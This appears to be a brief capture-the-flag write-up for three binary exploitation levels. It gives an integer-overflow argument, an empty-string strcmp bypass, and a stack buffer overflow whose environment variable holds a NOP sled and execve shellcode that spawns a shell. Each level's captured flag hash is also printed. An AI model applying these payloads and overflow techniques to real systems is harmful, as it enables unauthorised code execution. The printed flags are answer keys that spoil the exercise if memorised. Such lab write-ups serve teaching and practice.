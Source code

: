 [Signed integer (32-bit) Converter](https://www.binaryconvert.com/result_signed_int.html?hexadecimal=0000002C) (remove space)

```
FLOW <- reverse endian "WOLF" == 1464814662 

FLOW * 11 == 40 + 4
```

```bash
./bonus1 -2147483637 $(python -c 'print("FLOW" * 11)')
```

`579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`

# bonus2

```bash
run $(python -c "print 'A' * 40") Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```
  
`0x38614137 -> offset == 23`

```
nl -> DAT_08048740
fi -> DAT_0804873d
```
  
```bash
export LANG=$(python -c 'print "nl" + "\x90"*153 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

> gdb ./bonus2
> break main
> run
> x/600wx $esp
0xbffff808: 0x90909090 0x90909090 0x90909090 0x90909090
0xbffff818: 0x90909090 0x90909090 0x90909090 0x90909090 # This one
0xbffff828: 0x90909090 0x90909090 0x90909090 0x90909090

0xbffffe9c
```

```bash
./bonus2 $(python -c "print 'A' * 40") $(python -c "import struct; print('B' * 23 + struct.pack('I',0xbffffe9c))")
```

  `71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587`

# bonus3

strcmp of "" == 0 everytime...

```bash
./bonus3 ""
```

`3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c`